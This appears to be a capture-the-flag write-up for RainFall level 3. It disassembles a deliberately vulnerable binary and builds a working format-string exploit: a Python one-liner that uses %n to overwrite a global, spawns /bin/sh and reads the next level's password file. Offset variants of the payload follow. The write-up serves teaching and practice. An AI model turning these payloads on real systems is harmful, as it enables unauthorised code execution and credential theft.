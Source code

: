 # Level 3

Once logged in, you will see a binary `level3`.

```
$ ssh level3@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
```

Let's run this and see what this does.

```
level3@RainFall:~$ ./level3

```

This one has the same behavior as level2.

```
level3@RainFall:~$ ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level3@RainFall:~$
```

Now let's take a look at the binary.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

Let's take a look at the function `v`.

```
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
```

On line `<+59>`, if a value stored in eax is stored `0x40` is not equal, it will jump to `<v+116>`, otherwise `fwrite` and `system` function will be executed.

Below are the strings stored in the address relevant to the `fwrite` and `system`:
```
gdb-peda$ x/s 0x8048600
0x8048600:       "Wait what?!\n"
gdb-peda$ x/s 0x804860d
0x804860d:       "/bin/sh"
```

In order to exploit this program, an FSV (Format String Vulnerability) will be used, as the function `printf` is used. But what is FSV and how is `printf` vulnerable? This [video](https://www.youtube.com/watch?v=0WvrSfcdq1I) does a great job at explaining how an FSV is exploited.

On line `<+54>`, we can see the value `0x40` is compared with the value in the address `0x804988c`, the variable `m`.

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```

If we try to pass in `%s` to the string format, it cases a segmentation fault.
```
level3@RainFall:~$ ./level3
%s
Segmentation fault (core dumped)
```

What if we pass `%x` into the input?

```
level3@RainFall:~$ ./level3
%x
200
```

As explained from above, if format string is passed into the variable, we can easily read memory from the stack.

```
level3@RainFall:~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

The goal of this level is to find an offset where we reach the address of the variable we want to modify, so we need to see in which address our buffer is written.

```
$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
````

We can see the offset of `AAAA` is 4 pointers (16 bytes).

We need to change the content of the variable m. Remember, the global variable `m` needs to have a size of 64. We accomplish this by using the `%n` modifier available in `printf`. This modifier sets the variable referenced by a provided pointer in arguments (or not provided in our case) to the number of characters printed so far.

In the following Python we print 64 characters and then put the `%n` with the `4$` modifier that tells `printf` to use the "fourth argument passed in". (This fourth argument isn't really passed in, but the program doesn't know that as those errors are caught in compile-time.)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

One interesting trick to try with this exploit: you can move around which `printf` argument it looks at by moving the exploit address around by multiples of 4, so the following exploits all work:

```
(python -c 'print "A"*0 + "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat -) | ./level3
(python -c 'print "A"*4 + "\x8c\x98\x04\x08" + "A"*56 + "%5$n"' ; cat -) | ./level3
(python -c 'print "A"*8 + "\x8c\x98\x04\x08" + "A"*52 + "%6$n"' ; cat -) | ./level3
```

